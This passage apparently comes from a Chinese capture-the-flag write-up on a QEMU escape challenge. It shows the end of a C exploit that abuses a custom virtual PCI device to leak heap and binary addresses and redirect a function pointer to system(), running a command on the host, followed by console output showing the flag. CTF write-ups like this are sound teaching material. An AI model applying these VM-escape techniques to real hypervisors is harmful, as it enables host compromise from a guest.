 ```c
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);
    //pmio_abwrite(0x100,0x12345678);
    //write args

    mmio_write(12,0x6d6f682f);
    mmio_write(16,0x7a772f65);
    mmio_write(20,0x616c662f);
    mmio_write(24,0x67);
    mmio_write(8,0x20746163);
    //set priviledge
    if(iopl(3) != 0){
        die("IO permission denied!\n");
    }
    //leak args/heap
	uint64_t heap_addr=pmio_abread((71 << 2));
    heap_addr=heap_addr<<32;
    heap_addr+=pmio_abread((70 << 2));
    uint64_t arg_addr = heap_addr + 0xb00;
    printf("[+]arg addr: 0x%llx\n",arg_addr);
    uint64_t proc_addr = pmio_abread(69 << 2);
    proc_addr = proc_addr << 32;
    proc_addr += pmio_abread(68 << 2);
    uint64_t proc_base = proc_addr - 2731150;
    printf("[+]proc addr: 0x%llx\n",proc_base);
    uint64_t system_plt = proc_base + 0x200d50;
    printf("[+]system addr: 0x%llx\n",system_plt);
    //get flag
    pmio_abwrite((70<<2),arg_addr & 0xffffffff);
    pmio_abwrite((68<<2),system_plt & 0xffffffff);
    return 0;
}

```
最终结果：

```sh
Welcome to QEMU-ESCAPE
qemu login: root
# cd /
# ./exp
mmio_mem @ 0xf7762000
[+]arg addr: 0x555558288570
[+]proc addr: 0x555555554000
[+]system addr: 0x555555754d50
# happy_new_year_2020!
```
